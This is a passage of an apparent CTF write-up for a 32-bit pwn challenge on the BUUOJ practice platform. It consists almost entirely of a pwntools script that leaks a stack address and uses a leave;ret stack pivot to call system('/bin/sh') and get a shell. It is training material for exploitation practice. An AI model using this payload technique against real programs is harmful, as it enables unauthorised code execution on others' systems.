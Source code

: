 Ubantu18 环境，这里我用 Ubantu16 打的

exp:

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

#p=remote("node4.buuoj.cn",27740)
p=process('./pwn0')
elf = ELF('./pwn0')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

system=0x08048400
leak('system',system)
leave_ret=0x080485FD


pl1='a'*0x27+'b'
p.send(pl1) #not sendline
p.recvuntil("b")
ebp=u32(p.recv(4))
leak('ebp',ebp)

s=ebp-0x38
binsh=ebp-0x28

pl2='aaaa'+p32(system)+p32(1)+p32(binsh)+"/bin/sh\00"
pl2=pl2.ljust(0x28,'p')

pl2+=p32(s)+p32(leave_ret)

sl(pl2)

p.interactive()
```
